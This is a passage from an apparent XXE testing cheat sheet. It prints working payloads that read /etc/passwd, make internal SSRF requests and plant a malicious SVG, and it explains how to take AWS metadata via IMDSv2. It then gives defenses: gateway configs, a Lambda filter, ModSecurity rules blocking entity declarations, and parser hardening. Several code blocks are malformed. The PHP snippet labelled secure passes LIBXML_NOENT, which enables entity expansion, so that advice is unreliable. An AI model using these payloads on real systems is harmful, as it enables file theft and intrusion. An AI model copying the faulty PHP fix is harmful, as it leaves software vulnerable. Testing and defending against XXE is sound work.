1. Host a malicious DTD with error-based exfiltration:
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
   %eval;
   %error;
   ```

##### XXE for SSRF

Use XXE to trigger internal requests:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://internal-service:8080/admin"> ]>
```

##### XXE Inside SOAP

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

##### XXE PoC Examples

```xml
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```

##### XXE via File Upload (SVG Example)

Create an SVG file with the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

Upload it where SVG is allowed (e.g., profile picture, comment attachment).

#### Comprehensive XXE Testing Checklist

1. **Basic entity testing**:
   - Test file access via `file://` protocol
   - Test network access via `http://` protocol

2. **Content delivery**:
   - Direct XXE with immediate results
   - Out-of-band XXE with remote DTD
   - Error-based XXE for data extraction

3. **Protocol testing**:
   - Test various protocols (file, http, https, ftp, etc.)
   - Attempt restricted protocol access

4. **Format variations**:
   - Test XXE in SVG uploads
   - Test XXE in document formats (DOCX, XLSX, PDF)
   - Test SOAP/XML-RPC interfaces

5. **Bypasses**:
   - Try character encoding tricks
   - Use nested entities
   - Apply URL encoding
   - Test with namespace manipulations

## Remediation Recommendations

- Disable DTD processing completely if possible
- Disable external entity resolution
- Implement proper input validation
- Use safe XML parsers that disable XXE by default
- Apply patch management to XML parsers
- Use newer API formats like JSON where feasible
- **Network egress allow-list**: Restrict outbound traffic from XML-parsing hosts to block blind-XXE callbacks.
- **API Gateway XML Protection**: Implement XML threat protection at the gateway layer

# API Gateway Request Validator
RequestValidator:
  Type: AWS::ApiGateway::RequestValidator
  Properties:
    ValidateRequestBody: true
    ValidateRequestParameters: true

# Lambda authorizer to inspect XML
def lambda_handler(event, context):
    body = event.get('body', '')

    # Block DTD declarations
    if '<!DOCTYPE' in body or '<!ENTITY' in body:
        return {
            'statusCode': 400,
            'body': 'XML DTD not allowed'
        }

    # Size limit
    if len(body) > 100000:  # 100KB
        return {
            'statusCode': 413,
            'body': 'Request too large'
        }
```

#### Kong Gateway

```yaml
plugins:
  - name: xml-threat-protection
    config:
      source_size_limit: 1000000 # 1MB max
      name_size_limit: 255 # Max element name length
      child_count_limit: 100 # Max child elements
      attribute_count_limit: 50 # Max attributes per element
      entity_expansion_limit: 0 # Disable entity expansion
      external_entity_limit: 0 # Disable external entities
      dtd_processing: false # Disable DTD
```

#### Apigee Edge

```xml
<!-- XMLThreatProtection policy -->
<XMLThreatProtection name="XML-Threat-Protection">
  <Source>request</Source>
  <StructureLimits>
    <NodeDepth>10</NodeDepth>
    <AttributeCountPerElement>5</AttributeCountPerElement>
    <NamespaceCountPerElement>3</NamespaceCountPerElement>
    <ChildCount includeComment="true" includeElement="true" includeProcessingInstruction="true" includeText="true">10</ChildCount>
  </StructureLimits>
  <ValueLimits>
    <Text>1000</Text>
    <Attribute>100</Attribute>
    <NamespaceURI>100</NamespaceURI>
    <Comment>500</Comment>
    <ProcessingInstructionData>500</ProcessingInstructionData>
  </ValueLimits>
</XMLThreatProtection>
```

# ModSecurity rules for XXE
SecRule REQUEST_BODY "@rx <!ENTITY" \
    "id:1000,phase:2,deny,status:403,msg:'XXE Attack Detected'"

SecRule REQUEST_BODY "@rx <!DOCTYPE.*\[" \
    "id:1001,phase:2,deny,status:403,msg:'DTD Declaration Blocked'"
```

### Parser default hardening (2024-2025)

- **libxml2 ≥ 2.13**: `XML_PARSE_NO_XXE` disables all external entity resolution by default.
- **Python ≥ 3.13**: standard `xml.*` modules forbid external entities; enable only via `feature_external_ges`.
- **.NET 8**: project templates set `XmlReaderSettings.DtdProcessing = Prohibit`.
- **Java 22**: `XMLConstants.FEATURE_SECURE_PROCESSING` is enabled and `external-general-entities` is `false`.

### Cloud-metadata nuance

AWS IMDSv2 now requires a session token. To exploit metadata via XXE you must first obtain a token with  
`PUT /latest/api/token` and then pass it in the `X-aws-ec2-metadata-token` header of subsequent requests.

### Secure Parser Configuration (practical snippets)

```java
// Java (SAX/StAX/DOM)
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

```python

# Python – prefer defusedxml
from defusedxml.ElementTree import fromstring
fromstring(xml_data)
```

```csharp
// .NET
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
using var reader = XmlReader.Create(stream, settings);
```

```go
// Go – standard encoding/xml does not resolve external entities
// but avoid streaming untrusted data into custom resolvers
type Safe struct{ }
```

```php
// PHP – libxml
$old = libxml_disable_entity_loader(true);
$xml = simplexml_load_string($data, "SimpleXMLElement", LIBXML_NONET | LIBXML_NOENT);
libxml_disable_entity_loader($old);
```
